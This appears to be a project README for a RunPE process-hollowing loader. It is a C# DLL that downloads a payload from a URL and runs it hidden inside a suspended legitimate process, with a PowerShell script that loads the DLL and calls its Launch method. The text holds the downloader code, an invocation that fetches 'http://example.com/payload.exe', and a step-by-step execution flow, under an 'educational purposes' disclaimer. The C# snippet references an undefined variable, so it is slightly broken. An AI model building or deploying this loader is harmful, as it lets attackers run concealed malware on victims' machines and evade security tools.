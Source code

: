 ## Introduction
Process hollowing is yet another tool in the kit of those who seek to hide the presence of a process. The idea is rather straight forward: a bootstrap application creates a seemingly innocent process in a suspended state. The legitimate image is then unmapped and replaced with the image that is to be hidden. If the preferred image base of the new image does not match that of the old image, the new image must be rebased. Once the new image is loaded in memory the EAX register of the suspended thread is set to the entry point. The process is then resumed and the entry point of the new image is executed.

## Overview
The Loader.cs is a C# implementation of a RunPE process hollowing technique. This technique is used to inject and execute a PE (Portable Executable) payload into a legitimate process's memory space, effectively hiding its presence.
The script.ps1 likely acts as the initiating script, which either:
Downloads the compiled Loader binary.
Executes the Loader with the required parameters (e.g., URLs or paths to payloads).

## Technical Details of Loader.cs as a DLL

Compilation to DLL:

The Loader.cs code will be compiled into a .NET DLL (Dynamic Link Library).
This allows external applications, including PowerShell, to interact with its public methods using reflection or direct invocation via the .NET framework.

Exposed Methods:

Loader.cs must expose its methods, such as Launch or RunPe, as public static so they can be called from PowerShell.
For example:

```csharp

public static void Launch(string appurl, string path)
        {
            if (!File.Exists(path))
            {
                return;
            }

            using (WebClient webClient = new WebClient())
            {
                byte[] Bytes = webClient.DownloadData(appurl);
                RunPe(Bytes, diretorio, "");
            }

        }
```
    

## Interaction via PowerShell:

The PowerShell script will use the [Reflection.Assembly]::LoadFrom() or Add-Type methods to load the DLL and call its methods.

PowerShell Script (script.ps1) Integration

Here’s an example of how the PowerShell script might load and interact with the DLL:

Invoking the Launch Method:

Use the fully qualified namespace and class name (Loader.c_Loader) to call methods:

    $appUrl = "http://example.com/payload.exe"
    $path = "C:\target\process.exe"

    # Call the static method
    [Loader.c_Loader]::Launch($appUrl, $path)

Passing Parameters:

Ensure parameters like appurl (URL to the payload) and path (target process) are correctly passed when invoking methods.


## Advantages of Using a DLL

    Modular Design: The PowerShell script focuses on orchestration, while the DLL encapsulates the complex logic.
    Reusability: The DLL can be reused across multiple scripts or applications.
    Dynamic Loading: PowerShell can load and use the DLL at runtime, making it flexible and adaptable to different scenarios.


## Example Flow

    1 Setup:
        Place the Loader.dll and the PowerShell script in the same directory or specify the path to the DLL in the script.
        
    2 Execute the Script:
        The PowerShell script loads the DLL, invokes the necessary methods, and triggers the execution of the payload.
        
    3 Payload Execution:
        The DLL performs process hollowing or other techniques as defined in Loader.cs.

Let me know if you'd like a sample PowerShell script template for this integration!


## Disclaimer: For Educational Purposes Only

This content is provided for educational purposes only. The author does not endorse or condone the misuse of the techniques described and assumes no responsibility for any actions taken based on this information. Always adhere to applicable laws and ethical guidelines when studying or using such methods.

